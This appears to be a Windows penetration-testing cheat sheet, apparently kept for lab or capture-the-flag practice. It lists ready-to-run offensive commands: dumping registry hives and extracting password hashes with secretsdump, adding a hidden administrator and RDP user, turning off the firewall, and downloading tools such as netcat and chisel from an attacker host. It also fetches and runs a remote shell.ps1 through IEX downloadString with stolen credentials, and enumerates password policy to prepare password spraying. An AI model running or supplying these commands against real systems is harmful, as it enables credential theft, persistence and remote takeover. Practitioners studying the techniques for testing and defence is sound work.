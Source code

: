 ### Dump hashes
````
reg save hklm\sam .\sam
reg save hklm\system .\system
reg save hklm\security .\security

secretsdump.py -sam sam -system system -security security LOCAL > hashes.txt
````
### Add RDP user
````
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
````
### Turn off firewall 
````
NetSh Advfirewall set allprofiles state off
````


#### Ping test blind rce
```sh
C:\Windows\System32\cmd.exe /c ping 10.10.14.27
# on linux box: 
tcpdump -i tun0 icmp
```


#### Ping test blind rce like above check if x64 powershell exists
```sh
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe ping 10.10.14.27
```

#### Download files
```bash
certutil.exe -urlcache -split -f http://10.10.14.10:8000/nc64.exe C:\\Users\\Public\\nc64.exe

powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/
/10.11.0.4/wget.exe','C:\Users\admin\Desktop\wget.exe')"

powershell iwr -uri http://10.10.16.97:8000/chisel.exe -outfile ch.exe # also works in PS ConstrainLanguageMode

expand http://10.10.14.10:8000/watson.exe C:\\Users\\Public\\watson.exe

bitsadmin /transfer debjob /download /priority normal http://10.10.14.10:8000/watson.exe C:\Users\\Public\watson.exe

```

#### md5checksum
```
certutil.exe -hashfile Taihou64.exe MD5
```

#### Alternate Data streams 
````
dir /R file.txt - to check 
expand hm.txt:root.txt root.txt
powershell -command " Get-Content C:\ADS\1.txt -Stream file.exe -Raw"


````

#### List directory permissions (win server 2003)
```sh
icacls c:\*. /C
```


#### List alternate data stream files
```sh
dir /r
```

#### Mount windows account share using cifs, "ACCT here is account share name"
```bash
sudo mount -t cifs -o username=Finance //10.1.1.1/ACCT /mnt/win_share/
```

#### Mount vhd file from share
```bash
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector -ro -v /path/to/mount/directory
```


#### Executing privileged command using valid credentials from powershell
```sh
$username = "Username\Administrator"
$password = "SUPERSECRETPASS"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8000/shell.ps1') } -Credential $cred -Computer localhost

or - [BETTER]
$username = "Username\Administrator"
$password = ConvertTo-SecureString -AsPlainText -Force 'SUPERSECRETPASS'
$cred = New-Object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.97:8000/shell.ps1')" -Credential $cred

```


#### Logging into the privileged user account using valid credentials from powershell
```sh
$username = 'Username\Administrator'
$securePassword = ConvertTo-SecureString -AsPlainText -Force 'SUPERSECRETPASS'
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Enter-PSSession -ComputerName localhost -Credential $credential
```


#### Dump password policy to prepare wordlist for password spray if smb null authentication allows domain enumeration.
```sh
crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
```
#### Check account lock policy before password spraying smb
```bash
crackmapexec smb 10.10.10.123 --pass-pol
```

